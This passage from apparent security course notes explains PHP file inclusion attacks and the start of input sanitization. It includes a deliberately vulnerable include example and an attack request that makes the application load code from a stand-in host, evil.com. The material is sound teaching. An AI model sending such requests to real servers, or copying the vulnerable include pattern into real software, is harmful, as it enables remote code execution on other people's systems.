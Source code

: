 \subsection{File Inclusion Attacks}
Many programming languages and web frameworks allow a developer to include a code component to modularize the application. Therefore, it is possible to inject code into the application if it is not configured correctly. For example:

case 1: upload code that is then included  

case 2: provide a remote code component if remote inclusion is supported  

case 3: manipulate the path that is used to locate the code component  

PHP allows remote files to be included with the \texttt{allow\_url\_fopen} directive. One can execute arbitrary code if user input is used to build the file name, for example, 

\begin{verbatim}
  // index.php
  $include_path = "/includes/";
  include($include_path . "lib.php");

  // lib.php
  include($include_path . "a.php");
\end{verbatim}

Then the attacker can request \texttt{GET /includes/lib.php?include\_path=http://www.evil.com/}. This will create variables from GET parameters and override the original \texttt{\$include\_path}, so it becomes \texttt{\$include\_path = "http://www.evil.com/"}. 

One can also inject HTML tags into a web page to modify its behaviour, e.g., use \texttt{<iframe>} to force a user to visit a web page or use \texttt{<form>} to collect user credentials. 

\subsection{Sanitization}
As web applications accept user inputs, and they can be used to construct commands, inputs should be sanitized before being used as commands by removing or escaping meta-characters. However, it is unreliable to block all bad inputs, making it hard to sanitize completely. Thus, dangerous APIs should be avoided entirely. 

There are some techniques in PHP to do sanitization:

- \texttt{strip\_tags(\$str)}: strips NULL bytes, HTML, and PHP tags from input  

